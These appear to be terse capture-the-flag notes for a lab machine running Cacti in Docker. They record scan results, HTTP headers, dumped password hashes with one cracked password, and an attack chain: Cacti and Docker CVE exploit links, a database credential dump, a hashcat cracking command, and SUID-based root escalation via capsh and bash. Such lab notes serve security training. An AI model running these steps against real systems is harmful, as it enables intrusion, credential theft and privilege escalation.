 | HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.211 | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.5 |
| 10.10.11.211 | 80   | tcp   | nginx   | 1.18.0                  |


## HEADERS
---
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 08 Jul 2023 03:03:21 GMT
Content-Type: text/html; charset=UTF-810.10.11.211
Connection: keep-alive
X-Powered-By: PHP/7.4.33
Last-Modified: Sat, 08 Jul 2023 03:03:20 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src *; img-src 'self'  data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self'  'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
P3P: CP="CAO PSA OUR"
Cache-Control: no-store, no-cache, must-revalidate
Set-Cookie: Cacti=b9280261ee0df6337fcd5a4450fed618; path=/; HttpOnly; SameSite=Strict
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache

---

## DIRECTORIES
---
/docs

---

## USERS
---
admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C (funkymonkey)
guest	43e9a4ab75570f5b

---

## NOTES
---
* marko, nginx
* cactus 1.2.22
* https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit
* in a docker container
* linpeas shows `capsh` has `SUID`
* `/sbin/capsh --gid=0 --uid=0 --` to escalate to root
* `mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"` dump passwords
* `hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt`
* ssh as marcus
* Docker version 20.10.5
* https://github.com/UncleJ4ck/CVE-2021-41091/tree/main
* as root on the docker, ``chmod u+s /bin/bash``
* run the exploit, cd to the vulnerable image and `./bin/bash -p`
* 

---
